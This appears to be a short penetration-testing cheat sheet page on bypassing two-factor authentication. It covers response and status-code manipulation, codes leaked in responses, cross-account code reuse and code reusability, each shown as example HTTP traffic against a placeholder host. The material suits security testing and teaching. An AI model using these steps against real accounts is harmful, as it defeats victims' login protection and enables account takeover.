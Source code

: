 ```yaml
---
title: "Bypass"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


## 2FA
### Response manipulation
```
HTTP/1.1 404 Not Found
...
{"code": false}
​
-------------------------------
​
Change it to {"code": true}
```
### Status code manipulation
```
HTTP/1.1 404 Not Found
...
{"code": false}
​```
--------------------------------
​
Change it to HTTP/1.1 200 OK
```
### 2FA Code in Response
Always check the response!
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```
### Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
### 2FA code reusability, same code can be reused.
Enter code 000000
```
POST /2fa/
Host: vuln.com
...
```